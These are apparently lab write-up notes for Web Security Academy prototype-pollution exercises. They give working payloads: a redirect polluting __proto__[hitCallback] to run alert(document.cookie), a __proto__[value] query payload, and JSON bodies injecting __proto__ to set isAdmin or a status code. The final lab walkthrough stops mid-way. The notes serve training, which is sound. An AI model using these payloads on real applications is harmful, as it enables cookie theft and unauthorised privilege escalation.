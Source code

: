     <script>
        window.location="https://0a6200d004b7a84281d74daf003600f2.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
    </script>

### LAB: Client-side prototype pollution via browser APIs

> **Base on this example:**
> If you use prototype pollution on the value property, then you can overwrite "property" even though it's been configured as not writable:

    Object.prototype.value='overwritten';
    let myObject = {property: "Existing property value"};
    Object.defineProperty(myObject,'property', {configurable:false,writable:false});
    alert(myObject.property);//overwritten!

> So even though the property has been made unconfigurable and unwritable, by using a prototype pollution source we can poison the descriptor used by `Object.defineProperty` to overwrite the property value. This is because if you don't specify a "value" property on the descriptor then the JavaScript engine uses the `Object.prototype`.

To solve this lab, use this payload:

    /?__proto__[value]=data:,alert(1);

### LAB: Privilege escalation via server-side prototype pollution

Notice the server updates the object via the POST request to `/my-account/change-address`. Notice the `isAdmin` property in the response. Try polluting the global `Object.prototype` with an arbitrary property as follows:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "t4JuEbXiKSFUOxGggk2HXTWGeGtghU8t",
        "__proto__": {
            "isAdmin": true
        }
    }

Send the request, notice the `isAdmin` property is set to `true`. We are now able to access the admin panel and delete Carlos.

### LAB: Detecting server-side prototype pollution without polluted property reflection

Notice the server updates the object via the POST request to `/my-account/change-address`. Try sending an invalid JSON format body. Notice the server is returning an error object with a `status` property. Try pollute this by sending this as the body:

    {
        "address_line_1": "Wiener HQ",
        "address_line_2": "One Wiener Way",
        "city": "Wienerville",
        "postcode": "BU1 1RP",
        "country": "UK",
        "sessionId": "sZDKqYGKmy2O2I39RSOOZ2aJy1SHLxsy",
        "__proto__": {
            "status": 411  // custom status code
        }
    }
